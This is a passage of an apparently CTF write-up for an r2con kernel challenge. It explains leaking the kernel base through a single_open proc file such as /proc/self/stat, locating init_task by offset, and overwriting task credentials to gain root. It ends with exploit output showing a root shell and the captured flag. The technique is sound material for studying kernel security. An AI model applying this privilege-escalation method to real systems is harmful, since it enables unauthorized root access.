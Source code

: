 	```c
	struct seq_operations {
		void * (*start) (struct seq_file *m, loff_t *pos);
		void (*stop) (struct seq_file *m, void *v);
		void * (*next) (struct seq_file *m, void *v, loff_t *pos);
		int (*show) (struct seq_file *m, void *v);
	};
	```

	All we need to do in this case is open a file descriptor to any file that 
	uses `single_open`, for example `/proc/self/stat`.

After we leaked the kernel base address, we can just find `init_task` by adding 
its offset. Then we can iterate the task structure and give ourselves root.

I've implemented this solution in `exploit_kaslr_cred.c`. By default the code 
uses the `single_open` approach to find the kernel base, but can be compiled 
with `-DUSE_SHMEM_LEAK` to use the shmem-based approach. 

When running the exploit you should see something like this:

```sh
$ ./test

...

[*] fds[3] sock_buf_t at ffff888002f9e520
[*] Kernel base: 0xffffffff81000000
[*] We are: 0
/bin/sh: can't access tty; job control turned off
/home/user # id
uid=0(root) gid=0(root)
/home/user # cat /flag.txt 
r2con{06e6ec5e2653a51e6e383ee4776a6670}
/home/user # 
```

